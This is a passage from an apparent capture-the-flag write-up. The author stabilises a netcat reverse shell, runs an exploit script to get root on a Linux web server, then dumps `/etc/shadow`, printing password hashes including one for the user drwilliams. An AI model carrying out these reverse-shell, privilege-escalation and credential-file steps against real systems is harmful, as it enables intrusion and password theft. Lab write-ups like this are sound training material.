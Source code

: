 ```
# stty raw -echo; fg  
[1]  + continued  nc -nvlp 4444

www-data@webserver:/var/www/html/uploads$ 
```

I tried re-running the exploit script.. (finger-crossed)

```
www-data@webserver:/var/www/html/uploads$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@webserver:/var/www/html/uploads# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

Woohoo it worked! We escalated our privilege to root level access.  The happiness was temporary, there was nothing to move further again. I remembered it was windows machine challenge so getting root in Linux environment meant nothing?? 

This may have been WSL or something, Since this our only foothold till now, i tried enumerating further, and thank goodness i did, when read the content of the `/etc/shadow` file there was encrypted password for the user **drwilliams**.

```
root@webserver:/var/www/html/uploads# cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::
root@webserver:/var/www/html/uploads# 

```
